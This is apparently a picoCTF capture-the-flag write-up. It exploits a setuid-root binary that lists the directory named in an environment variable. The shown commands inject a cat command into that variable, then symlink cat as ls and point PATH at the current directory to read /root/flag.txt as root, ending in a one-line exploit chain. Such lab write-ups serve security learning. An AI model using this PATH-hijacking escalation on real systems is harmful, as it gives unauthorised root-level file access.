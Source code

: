 Connect to the remote instance via `ssh ctf-player@saturn.picoctf.net -p 63339` and run `./bin`

```bash
ctf-player@pico-chall$ ./bin 
Error: SECRET_DIR environment variable is not set
```

We need to set the `SECRET_DIR` env variable to something. Let's try `cat /root/flag.txt`.

```bash
ctf-player@pico-chall$ export SECRET_DIR="cat /root/flag.txt" && ./bin 
Listing the content of cat /root/flag.txt as root: 
ls: cannot access 'cat': No such file or directory
/root/flag.txt
Error: system() call returned non-zero value: 512
```

As we can notice, the binary runs `ls(SECRET_DIR)`. It prints the file location but it produces the error `ls: cannot access 'cat': No such file or directory`.

Now, we need to bypass `ls` to print the flag. 

The program runs as `root`. We can trick it to think that it runs the actual `ls`, but instead it runs a `symbolic link` we create.

```bash
ctf-player@pico-chall$ ln -s `which cat` ls
ctf-player@pico-chall$ ls
bin  ls
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    30 Apr  3 01:31 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
drwx------ 2 ctf-player ctf-player    34 Apr  3 01:30 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin
lrwxrwxrwx 1 ctf-player ctf-player    12 Apr  3 01:31 ls -> /usr/bin/cat
```

Then, export the `PATH` to our current directory.

```bash
ctf-player@pico-chall$ export PATH=`pwd`
ctf-player@pico-chall$ echo $PATH
/home/ctf-player
```

The create the `SECRET_DIR` var with `/root/flag.txt`.

```bash
export SECRET_DIR="/root/flag.txt"
```

```bash
ln -s `which cat` ls && \
export PATH=`pwd` && \
export SECRET_DIR="/root/flag.txt" && \
./bin | /usr/bin/grep pico && \
/usr/bin/rm ls
```

